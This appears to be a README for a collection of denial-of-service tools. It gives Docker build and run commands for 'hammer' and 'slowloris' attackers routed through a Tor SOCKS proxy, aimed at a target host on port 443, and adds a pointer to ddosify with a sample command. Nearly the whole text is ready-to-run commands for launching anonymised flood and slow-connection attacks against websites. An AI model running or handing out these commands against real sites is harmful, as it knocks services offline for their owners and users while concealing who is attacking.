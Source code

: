 ## How to use

### Build containers

```shell
docker build -t hammer -f hammer.dockerfile .
docker build -t slowloris -f slowloris.dockerfile .
docker build -t tor-proxy -f tor-proxy.dockerfile .
```

### Run tor proxy
```shell
docker run -d -p 9150:9150 tor-proxy
```
or
```shell
docker run -it --rm -p 9150:9150 tor-socks-proxy
```

### Run runners with socks5 proxy arguments
```shell
docker run -it --rm hammer:latest -x --proxy-host 172.17.0.1 --proxy-port 9150 -p 443 -s example.com
```
or
```shell
./hammer.py -x --proxy-host 172.17.0.1 --proxy-port 9150 -p 443 -s example.com
```
or
```shell
docker run -it --rm slowloris:latest -x --proxy-host 172.17.0.1 --proxy-port 9150 --https -ua --port 443 example.com
```
or
```shell
./runner.py -x --proxy-host 172.17.0.1 --proxy-port 9150 --https -ua --port 443 example.com
```

### Other tools

[https://hub.docker.com/r/ddosify/ddosify](https://hub.docker.com/r/ddosify/ddosify)
[https://github.com/ddosify/ddosify](https://github.com/ddosify/ddosify)
```shell
docker run --rm -it ddosify/ddosify ddosify -P http://172.17.0.1:8080 -t example.com
```
